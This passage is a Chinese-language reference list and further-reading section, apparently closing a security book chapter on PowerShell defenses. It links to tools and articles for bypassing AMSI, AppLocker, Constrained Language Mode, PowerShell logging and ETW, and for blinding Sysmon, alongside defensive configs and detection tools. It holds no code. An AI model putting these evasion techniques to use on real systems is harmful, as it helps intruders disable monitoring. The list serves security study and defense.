1.  Invoke-Obfuscation 脚本: [`github.com/danielbohannon/Invoke-Obfuscation`](https://github.com/danielbohannon/Invoke-Obfuscation)

1.  Nishang 项目: [`github.com/samratashok/nishang`](https://github.com/samratashok/nishang)

1.  Powercat: [`github.com/besimorhino/powercat`](https://github.com/besimorhino/powercat)

1.  通过 AMSI 的持久性: [`pentestlab.blog/2021/05/17/persistence-amsi/`](https://pentestlab.blog/2021/05/17/persistence-amsi/)

1.  Pentest Laboratories 的 AMSI 绕过威胁猎捕: [`pentestlaboratories.com/2021/06/01/threat-hunting-amsi-bypasses/`](https://pentestlaboratories.com/2021/06/01/threat-hunting-amsi-bypasses/)

1.  *F-Secure* 的 AMSI 绕过威胁猎捕: [`blog.f-secure.com/hunting-for-amsi-bypasses/`](https://blog.f-secure.com/hunting-for-amsi-bypasses/)

1.  Tiraniddo 关于 AppLocker 内部原理的研究: [`www.tiraniddo.dev/2019/11/the-internals-of-applocker-part-1.xhtml`](https://www.tiraniddo.dev/2019/11/the-internals-of-applocker-part-1.xhtml)

1.  CLM 限制的 PowerShell 敏感能力：[`devblogs.microsoft.com/powershell/powershell-constrained-language-mode/#what-does-constrained-language-constrain`](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/#what-does-constrained-language-constrain)

1.  AppLocker 初学者指南：[`www.hackingarticles.in/windows-applocker-policy-a-beginners-guide/`](https://www.hackingarticles.in/windows-applocker-policy-a-beginners-guide/)

1.  使用 InstallUtil 绕过 AppLocker：[`www.ired.team/offensive-security/code-execution/t1118-installutil`](https://www.ired.team/offensive-security/code-execution/t1118-installutil)

1.  使用 MSBuild 绕过 AppLocker：[`www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c`](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c)

1.  AppLocker 绕过列表项目：[`github.com/api0cradle/UltimateAppLockerByPassList`](https://github.com/api0cradle/UltimateAppLockerByPassList)

1.  PowerShdll 项目使用 PowerShell 自动化 DLL：[`github.com/p3nt4/PowerShdll`](https://github.com/p3nt4/PowerShdll)

1.  PSBypassCLM 项目，创建一个 InstalUtil 的包装器：[`github.com/padovah4ck/PSByPassCLM`](https://github.com/padovah4ck/PSByPassCLM)

1.  Bypass-CLM 项目，修补返回值：[`github.com/calebstewart/bypass-clm`](https://github.com/calebstewart/bypass-clm)

1.  利用 COM 绕过 CLM：[`blog.xpnsec.com/constrained-language-mode-bypass/`](https://blog.xpnsec.com/constrained-language-mode-bypass/)

1.  通过设置 HKCU 环境值绕过 CLM：[`sp00ks-git.github.io/posts/CLM-Bypass/`](https://sp00ks-git.github.io/posts/CLM-Bypass/)

1.  AaronLocker 项目：[`github.com/microsoft/AaronLocker`](https://github.com/microsoft/AaronLocker)

1.  部署 WDAC 和 AppLocker：[`improsec.com/tech-blog/one-thousand-and-one-application-blocks`](https://improsec.com/tech-blog/one-thousand-and-one-application-blocks)

1.  Sysmon：[`docs.microsoft.com/en-us/sysinternals/downloads/sysmon`](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)

1.  Sysmon 社区指南：[`github.com/trustedsec/SysmonCommunityGuide`](https://github.com/trustedsec/SysmonCommunityGuide)

1.  Sysmon 配置版本由*SwiftOnSecurity*提供：[`github.com/SwiftOnSecurity/sysmon-config`](https://github.com/SwiftOnSecurity/sysmon-config)

1.  Sysmon 配置版本由*Florian* *Roth*提供：[`github.com/Neo23x0/sysmon-config`](https://github.com/Neo23x0/sysmon-config)

1.  Sysmon 配置版本由*Olaf* *Hartong*提供：[`github.com/olafhartong/sysmon-modular`](https://github.com/olafhartong/sysmon-modular)

1.  *cobbr.io* 提供的 ScriptBlock Logging 绕过：[`cobbr.io/ScriptBlock-Logging-Bypass.xhtml`](https://cobbr.io/ScriptBlock-Logging-Bypass.xhtml)

1.  cobbr.io 的 ScriptBlock 警告事件日志绕过：[`cobbr.io/ScriptBlock-Warning-Event-Logging-Bypass.xhtml`](https://cobbr.io/ScriptBlock-Warning-Event-Logging-Bypass.xhtml)

1.  DeepBlue：[`github.com/sans-blue-team/DeepBlueCLI`](https://github.com/sans-blue-team/DeepBlueCLI)

1.  新的绕过方法第一部分：[`www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/`](https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/)

1.  新的绕过方法第二部分：[`www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-2/`](https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-2/)

1.  PowerShell 保护模块：[`blog.ironmansoftware.com/protect-logging-bypass/`](https://blog.ironmansoftware.com/protect-logging-bypass/)

1.  EnableTranscripting 绕过：[`avantguard.io/en/blog/powershell-enhanced-logging-capabilities-bypass`](https://avantguard.io/en/blog/powershell-enhanced-logging-capabilities-bypass)

1.  Invisi-Shell 工具：[`github.com/OmerYa/Invisi-Shell`](https://github.com/OmerYa/Invisi-Shell) 和 [`www.youtube.com/watch?v=Y3oMEiySxcc`](https://www.youtube.com/watch?v=Y3oMEiySxcc)

1.  Stracciatella 工具：[`github.com/mgeeky/Stracciatella`](https://github.com/mgeeky/Stracciatella)

1.  检测 Sysmon：[`www.ired.team/offensive-security/enumeration-and-discovery/detecting-sysmon-on-the-victim-host`](https://www.ired.team/offensive-security/enumeration-and-discovery/detecting-sysmon-on-the-victim-host)

1.  Sysmon 篡改：`medium.com/@olafhartong/endpoint-detection-superpowers-on-the-cheap-part-3-sysmon-tampering-49c2dc9bf6d9`

1.  Phant0m 工具：[`github.com/hlldz/Phant0m`](https://github.com/hlldz/Phant0m)

1.  SysmonQuiet：[`github.com/ScriptIdiot/SysmonQuiet`](https://github.com/ScriptIdiot/SysmonQuiet)

1.  SysmonEnte：[`codewhitesec.blogspot.com/2022/09/attacks-on-sysmon-revisited-sysmonente.xhtml`](https://codewhitesec.blogspot.com/2022/09/attacks-on-sysmon-revisited-sysmonente.xhtml)

1.  Shhmon：[`github.com/matterpreter/Shhmon`](https://github.com/matterpreter/Shhmon)

1.  ETW 入门指南：[`bmcder.com/blog/a-begginers-all-inclusive-guide-to-etw`](https://bmcder.com/blog/a-begginers-all-inclusive-guide-to-etw)

1.  检测恶意使用.NET 第一部分：[`blog.f-secure.com/detecting-malicious-use-of-net-part-1/`](https://blog.f-secure.com/detecting-malicious-use-of-net-part-1/)

1.  检测恶意使用.NET 第二部分：[`blog.f-secure.com/detecting-malicious-use-of-net-part-2/`](https://blog.f-secure.com/detecting-malicious-use-of-net-part-2/)

1.  SilkETW：[`github.com/mandiant/SilkETW`](https://github.com/mandiant/SilkETW)

1.  Seatbelt：[`github.com/GhostPack/Seatbelt`](https://github.com/GhostPack/Seatbelt)

1.  ConfuserEx: [`github.com/mkaring/ConfuserEx`](https://github.com/mkaring/ConfuserEx)

1.  通过使 EtwEventWrite API 无效来绕过 ETW：[`whiteknightlabs.com/2021/12/11/bypassing-etw-for-fun-and-profit/`](https://whiteknightlabs.com/2021/12/11/bypassing-etw-for-fun-and-profit/)

1.  补丁 EtwEventWrite API: [`blog.xpnsec.com/hiding-your-dotnet-etw/`](https://blog.xpnsec.com/hiding-your-dotnet-etw/)

1.  TamperETW: [`github.com/outflanknl/TamperETW`](https://github.com/outflanknl/TamperETW)

1.  规避 ETW 和 AMSI：[`pre.empt.blog/2023/maelstrom-6-working-with-amsi-and-etw-for-red-and-blue`](https://pre.empt.blog/2023/maelstrom-6-working-with-amsi-and-etw-for-red-and-blue)

1.  篡改 ETW: [`blog.palantir.com/tampering-with-windows-event-tracing-background-offense-and-defense-4be7ac62ac63`](https://blog.palantir.com/tampering-with-windows-event-tracing-background-offense-and-defense-4be7ac62ac63)

# 进一步阅读

以下是一些进一步学习的辅助资源，帮助你更深入地了解本章涉及的攻击：

+   关于 AmsiScanBufferBypass 的优秀博客文章，提供了即用的代码：[`fatrodzianko.com/2020/08/25/getting-rastamouses-amsiscanbufferbypass-to-work-again/`](https://fatrodzianko.com/2020/08/25/getting-rastamouses-amsiscanbufferbypass-to-work-again/)。

+   关于 PowerShell CLM 和规则评估示例的优秀博客文章：[`p0w3rsh3ll.wordpress.com/2019/03/07/applocker-and-powershell-how-do-they-tightly-work-together/`](https://p0w3rsh3ll.wordpress.com/2019/03/07/applocker-and-powershell-how-do-they-tightly-work-together/)

+   有一篇结合了 MSBuild 和 InstallUtils AppLocker 绕过方法的优秀文章：[`www.blackhillsinfosec.com/powershell-without-powershell-how-to-bypass-application-whitelisting-environment-restrictions-av/`](https://www.blackhillsinfosec.com/powershell-without-powershell-how-to-bypass-application-whitelisting-environment-restrictions-av/)
